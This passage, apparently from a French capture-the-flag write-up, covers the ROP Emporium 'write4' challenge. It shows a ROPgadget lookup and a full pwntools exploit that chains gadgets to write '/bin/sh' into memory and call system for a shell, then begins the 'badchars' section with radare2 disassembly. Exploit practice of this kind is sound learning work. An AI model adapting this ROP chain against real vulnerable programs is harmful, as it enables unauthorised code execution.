 Nous allons donc appeler `system`avec l'adresse `0x004005e0`.

~~~bash
root@kali:~/rop_emporium/write4# ROPgadget --binary write4 | grep "pop rdi"
0x0000000000400893 : pop rdi ; ret
~~~
Le `pop rdi` se trouve donc a `0x400893`.

> Une nouvelle fois nous occulterons cette partie répétitive. 
> Taille du bourrage :  40

Voici l'exploit : 

~~~python
#!/usr/bin/env python

from pwn import * 

junk = "A"*40
pop_rdi = p64(0x400893)
data_addr = p64(0x601050)
system = p64(0x4005e0)

binsh = "/bin/sh\x00" #/bin//sh work too
mov_qword = p64(0x400820)
pop_r14_r15 = p64(0x400890)


p = process("./write4")

payload = junk
payload += pop_r14_r15 
payload += data_addr 
payload += binsh 
payload += mov_qword 
payload += pop_rdi 
payload += data_addr 
payload += system 

print payload 

info("Send magic bytes in binary")

p.recvuntil(">")
p.sendline(payload)
p.interactive()
~~~

## badchars 
Ce challenge est globalement le même qu'avant mais avec des caractères interdis. 
Avec radare2 nous trouvons la main qui appel une fonction `pwnme` qui appelle `checkbadchars`: 

~~~bash
    ; CALL XREF from sym.pwnme (0x4009b0)
|           0x00400a40      55             push rbp
|           0x00400a41      4889e5         mov rbp, rsp
|           0x00400a44      48897dd8       mov qword [local_28h], rdi  ; arg1
|           0x00400a48      488975d0       mov qword [local_30h], rsi  ; arg2
|           0x00400a4c      c645e062       mov byte [local_20h], 0x62  ; 'b' ; 98
|           0x00400a50      c645e169       mov byte [local_1fh], 0x69  ; 'i' ; 105
|           0x00400a54      c645e263       mov byte [local_1eh], 0x63  ; 'c' ; 99
|           0x00400a58      c645e32f       mov byte [local_1dh], 0x2f  ; '/' ; 47
|           0x00400a5c      c645e420       mov byte [local_1ch], 0x20  ; 32
|           0x00400a60      c645e566       mov byte [local_1bh], 0x66  ; 'f' ; 102
|           0x00400a64      c645e66e       mov byte [local_1ah], 0x6e  ; 'n' ; 110
|           0x00400a68      c645e773       mov byte [local_19h], 0x73  ; 's' ; 115
~~~